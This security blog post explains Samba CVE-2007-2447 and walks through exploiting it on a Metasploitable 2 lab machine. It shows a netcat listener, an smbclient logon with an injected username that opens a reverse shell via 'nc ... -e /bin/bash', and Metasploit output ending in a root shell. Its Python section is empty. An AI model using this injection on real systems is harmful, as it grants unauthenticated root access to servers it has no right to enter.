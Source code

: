 ```yaml
---
layout: post
title:  "Samba CVE2007-2447"
categories: [Vulnerabilities]
tags: [command execution, exploit, python]
draft: false
---
```


### Introduction

On May 7th 2007, a vulnerability found within Samba was reported via email to their security@samba.com mail alias. This bug was initially reported against the anonymous calls to the `SamrChangePassword()` [MS-RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) function in combination with the "username map script" `smb.conf` option (which is not enabled by default). The bug was disclosed publicly on May 14th.

However, after investigation from developers at Samba they found the bug to be much broader noting that it also impacted remote printer & file share management. The root cause is due to passing unfiltered user input provided by MS-RPC calls to `/bin/sh` when invoking external scripts defined in `smb.conf`. Interestingly the vulnerability found with the "username map script" can be exploited without authenticatiton unlike the bug found in remote printer & file share management scripts, those require an authenticated session.

### So, how does it work?

In general there isn't much to discuss regarding this bug, it's fairly simple - by sending [shell metacharacters](http://faculty.salina.k-state.edu/tim/unix_sg/shell/metachar.html) into the username we trigger the bug which in turn allows us to send arbitrary commands to the device through the username field when attempting an SMB connection. As we mentioned earlier, no authentication is required to exploit this due to the fact that the option is used to map usernames prior to authentication and thus we can exploit this whilst being unauthenticated.

### Code Review

Sadly I was unable to find the source code that was affected for this CVE thus I cannot do a review on it, I'm not sure if anyone has it but if you do I'd greatly appreciate it! You can contact me on Twitter which is linked at the bottom of the page.

### Exploit

We can exploit this vulnerability using the [Metasploit module](https://www.exploit-db.com/exploits/16320/) however, this is another exploit that is easy to execute manually. As per usual we will exploit the vulnerability with Metasploit, manually and write our own script for the exploit.

It's worth noting in the below examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Exploiting this one manually has a few steps but it's not too tricky, it's not exactly efficient but it does the trick! Firstly we need to setup a listening on netcat, open a termninal and use `netcat -nvlp` the actual listener is defined with `l` so you might be wondering what all of this means? Well, `-n` tells Netcat not to resolve names, `-v` specifies to give us a verbose output when printing, `-l` specifies to create the listener as we mentioned and `-p` will create that listener on *any* local port.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
```

Once we have the listener setup we are now going to open a new terminal and check the victims shares, we can do this with `smbclient -L //192.168.139.133` where `-L` will get a list of shares available on a host. We're using Metasploitable 2 as mentioned.

```
root@LinxzSecKali:~# smbclient -L //192.168.139.133
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            METASPLOITABLE
  
```
We're going to focus on the `tmp` folder & attempt to connect to the victim using `smbclient  //192.168.139.133/tmp` now you should receive the following back from the target.

```
root@LinxzSecKali:~# smbclient  //192.168.139.133/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
```

Next, we need to setup the reverse shell, you should see a prompt that looks like this after the previous command `smb: \>` this is good news, next we need to send `logon` to the target with logon ```logon/=`nc 192.168.139.135 4444 -e /bin/bash``` this time make sure you use your machines ip & not the targets! If we switch back to our terminal we created the netcat listener in you should see this.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.139.135] from (UNKNOWN) [192.168.139.133] 36513
```
Now you can execute commands and see that we've owned the machine! As I mentioned, there's a few steps for us to carry out but it's all relatively simple stuff. If in doubt just use `--help` :p


#### Metasploit Exploitation

Load Metasploit using `msfconsole` then run `use exploit/multi/samba/usermap_script` this will tell Metasploit to use that module, next you will need to set the `rhost` with the IP address of your target, you don't need to specify another payload for the bind shell as the Metasploit module will do this for you on your machines IP & port 4444. That's it! You now have a shell with whatever privliges the account Samba is running on has.

```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > set RHOST 192.168.139.133
RHOST => 192.168.139.133
msf exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 192.168.139.135:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo iogIbtev3qMtahR5;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "iogIbtev3qMtahR5\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.139.135:4444 -> 192.168.139.133:44662) at 2018-11-17 15:35:19 +0000

id;
uid=0(root) gid=0(root)
whoami;
root
```


### Python Exploitation



### References

[Samba Security CVE2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)

[Rapid 7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

[CVE Details 2007-2447](https://www.cvedetails.com/cve/cve-2007-2447)

